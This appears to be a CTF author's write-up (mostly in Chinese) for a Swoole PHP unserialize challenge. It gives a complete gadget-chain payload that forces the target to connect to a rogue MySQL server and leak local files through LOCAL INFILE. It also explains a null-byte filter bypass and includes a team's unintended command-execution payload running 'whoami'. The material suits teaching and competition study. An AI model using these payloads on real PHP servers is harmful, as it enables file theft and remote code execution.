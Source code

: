 # swoole

make unserialize great again!

## License

AGPL License

## Payload

在Swoole里跑：
```php
<?php
function changeProperty ($object, $property, $value)
{
    $a = new ReflectionClass($object);
    $b = $a->getProperty($property);
    $b->setAccessible(true);
    $b->setValue($object, $value);
}

// Part A

$c = new \Swoole\Database\PDOConfig();
$c->withHost('ROUGE_MYSQL_SERVER');    // your rouge-mysql-server host & port
$c->withPort(3306);
$c->withOptions([
    \PDO::MYSQL_ATTR_LOCAL_INFILE => 1,
    \PDO::MYSQL_ATTR_INIT_COMMAND => 'select 1'
]);

$a = new \Swoole\ConnectionPool(function () { }, 0, '\\Swoole\\Database\\PDOPool');
changeProperty($a, 'size', 100);
changeProperty($a, 'constructor', $c);
changeProperty($a, 'num', 0);
changeProperty($a, 'pool', new \SplDoublyLinkedList());

// Part C

$d = unserialize(base64_decode('TzoyNDoiU3dvb2xlXERhdGFiYXNlXFBET1Byb3h5Ijo0OntzOjExOiIAKgBfX29iamVjdCI7TjtzOjIyOiIAKgBzZXRBdHRyaWJ1dGVDb250ZXh0IjtOO3M6MTQ6IgAqAGNvbnN0cnVjdG9yIjtOO3M6ODoiACoAcm91bmQiO2k6MDt9'));
// This's Swoole\Database\MysqliProxy
changeProperty($d, 'constructor', [$a, 'get']);

$curl = new \Swoole\Curl\Handler('http://www.baidu.com');
$curl->setOpt(CURLOPT_HEADERFUNCTION, [$d, 'reconnect']);
$curl->setOpt(CURLOPT_READFUNCTION, [$d, 'get']);

$ret = new \Swoole\ObjectProxy(new stdClass);
changeProperty($ret, '__object', [$curl, 'exec']);


$s = serialize($ret);
$s = preg_replace_callback('/s:(\d+):"\x00(.*?)\x00/', function ($a) {
    return 's:' . ((int)$a[1] - strlen($a[2]) - 2) . ':"';
}, $s);

echo $s;
echo "\n";
```

## 解释

我找到的唯一的一个能传参的函数只有这个：https://github.com/swoole/library/blob/8eebda9cd87bf37164763b059922ab393802258b/src/core/ConnectionPool.php#L89
```php
$connection = new $this->proxy($this->constructor);
```

我又检查了一遍所有的constructor，只有MySQL还算有点用。那题就这么出好了。

### Part 1 - Rouge MySQL Server

我们先回顾一下Rouge MySQL Server的原理。当客户端向服务器发送一个类型为COM_QUERY的包来进行SQL查询时，若服务器返回一个Procotol::LOCAL_INFILE_Request请求，则客户端会读取本地文件并发送到服务器。https://dev.mysql.com/doc/internals/en/com-query-response.html#packet-Protocol::LOCAL_INFILE_Request

这意味着，如果MySQL客户端连接以后，如果没有进行任何一句包括SELECT @@version之类的查询，客户端是完全不会响应服务器的LOCAL INFILE请求的。有许多客户端，例如MySQL命令行，连接之后就会向服务器查询各类参数。但PHP的MySQL客户端连接之后是什么都不会做的，因此我们需要给MySQL客户端配置MYSQL_ATTR_INIT_COMMAND参数，让它连接之后自动向服务器发送一条SQL语句。

另外，在我使用的这个Swoole版本中，若使用mysqli，则会无视所有连接参数（见我给Swoole提的Bug：https://github.com/swoole/library/issues/34 ），因此这里只能使用PDO的MySQL类。这就是
```php
$c->withOptions([
    \PDO::MYSQL_ATTR_LOCAL_INFILE => 1,
    \PDO::MYSQL_ATTR_INIT_COMMAND => 'select 1'
]);
```
的原因

### Part 2 - SplDoublyLinkedList

读读这段代码: https://github.com/swoole/library/blob/8eebda9cd87bf37164763b059922ab393802258b/src/core/ConnectionPool.php#L57

    public function get()
    {
        if ($this->pool->isEmpty() && $this->num < $this->size) {
            $this->make();
        }
        return $this->pool->pop();
    }
    public function put($connection): void
    {
        if ($connection !== null) {
            $this->pool->push($connection);
        }
    }

$this->pool的类型是`Swoole\Coroutine\Channel`，但这个类不可被序列化。不过PHP没有运行时类型检查，找一个实现了同样接口的类就可以了。PHP的SPL 中包含着许多这样的类，例如SplStack / SplQueue等等。

### Part 3 - curl

回头看Part C这个注释所在的代码，你可以在这里调用`$a->get()`，它会返回一个`Swoole\Database\PDOPool`。这是一个连接池，只有当我们要连接的时候，这个连接池才会创建连接。因此这里实际需要调用`$a->get()->get()`。但我们没有办法进行链式调用。不过，看看这里：`PDOProxy::reconnect`(https://github.com/swoole/library/blob/8eebda9cd87bf37164763b059922ab393802258b/src/core/Database/PDOProxy.php#L88):

```php
public function reconnect(): void
{
    $constructor = $this->constructor;
    parent::__construct($constructor());
}
public function parent::__construct ($constructor)
{
    $this->__object = $object;
}
public function parent::__invoke(...$arguments)
{
    /** @var mixed $object */
    $object = $this->__object;
    return $object(...$arguments);
}
```
这说明，`__object`会在连接之后被改变。因此我们只需要找到一个办法能连续调用以下这两个函数：
```php
$a->reconnect(); // typeof this->__object = PDOPool
$a->get();
```
回头看看curl，它正好允许两个不同的callback: https://github.com/swoole/library/blob/8eebda9cd87bf37164763b059922ab393802258b/src/core/Curl/Handler.php#L736
```php
$cb = $this->headerFunction;
if ($client->statusCode > 0) {
    $row = "HTTP/1.1 {$client->statusCode} " . Status::getReasonPhrase($client->statusCode) . "\r\n";
    if ($cb) {
        $cb($this, $row);
    }
    $headerContent .= $row;
}
// ...
if ($client->body and $this->readFunction) {
    $cb = $this->readFunction;
    $cb($this, $this->outputStream, strlen($client->body));
}
```

### Part 4 - Inaccessible properties

这个大家应该都见过了。我们考虑以下代码：

```php
php > class A{public $b;protected $c;}
php > $b = new A();
php > var_dump(serialize($b));
php shell code:1:
string(35) "O:1:"A":2:{s:1:"b";N;s:4:"\000*\000c";N;}"
php >
```
private/protected的属性在序列化时会被`\x00`包裹，可见 [zend_mangle_property_name](https://github.com/php/php-src/blob/34f727e63716dfb798865289c079b017812ad03b/Zend/zend_API.c#L3595). 不过我把`\x00`ban了。你可以直接对其进行unmangle。
```php
$s = preg_replace_callback('/s:(\d+):"\x00(.*?)\x00/', function ($a) {
    return 's:' . ((int)$a[1] - strlen($a[2]) - 2) . ':"';
}, $s);
```

在PHP < 7.2时，很显然这是不可行的：
```php
php > var_dump($s);
string(32) "O:1:"A":2:{s:1:"b";N;s:1:"c";N;}"
php > var_dump(unserialize($s));
object(A)#2 (3) {
  ["b"]=>
  NULL
  ["c":protected]=>
  NULL
  ["c"]=>
  NULL
}
```
但在PHP 7.2以及以上版本中，由于这个commit的缘故，all works fine：[Fix #49649 - Handle property visibility changes on unserialization ](https://github.com/php/php-src/commit/7cb5bdf64a95bd70623d33d6ea122c13b01113bd)。


## 非预期

来自[Nu1L](https://ctftime.org/team/19208)。

```php
```php
$o = new Swoole\Curl\Handlep("http://google.com/");
$o->setOpt(CURLOPT_READFUNCTION,"array_walk");
$o->setOpt(CURLOPT_FILE, "array_walk");
$o->exec = array('whoami');
$o->setOpt(CURLOPT_POST,1);
$o->setOpt(CURLOPT_POSTFIELDS,"aaa");
$o->setOpt(CURLOPT_HTTPHEADER,["Content-type"=>"application/json"]);
$o->setOpt(CURLOPT_HTTP_VERSION,CURL_HTTP_VERSION_1_1);

$a = serialize([$o,'exec']);
echo str_replace("Handlep","Handler",urlencode(process_serialized($a)));


// process_serialized:
// use `S:` instead of `s:` to bypass \x00
```
